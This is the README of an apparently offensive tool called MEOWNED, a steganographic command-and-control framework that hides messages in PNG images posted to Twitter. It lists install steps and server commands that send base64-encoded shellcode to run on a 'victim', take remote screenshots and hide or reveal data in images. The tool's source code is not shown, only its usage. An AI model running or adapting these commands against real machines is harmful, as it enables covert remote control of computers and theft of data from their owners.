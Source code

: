 # MEOWNED
MEOWNED (MEssages Over tWitter ¿stegaNography? Exfiltrating Data)

## Installation
* pip3 install python-twitter
* pip3 install Stegano

## Usage
### Source Image
The image should be a .png, preferably by passed through http://ravenworks.ca/twitimagefix/ in order to prevent twitter image compression.

### Client 
* > python meopwn_cli

### C&C
* > python meopwn_srv victim_hashtag [image] [message]

### Exec Shellcode
The shell code must be base64 encoded.
* > python3 meopwn_srv.py victim_hastag grumpy.png -f "shellcodes/messageBox.b64"

#### Take Screenshot
* > python3 meopwn_srv.py -hashtag victim_hashtag -image grumpy.png -ts -m "meow"

### Tools
* > python3 reveal.py "./output-imgs/grumpy1.png"
* > python3 hide.py "./source-imgs/grumpy.png" "./output-imgs/grumpy1.png" "SECRET"
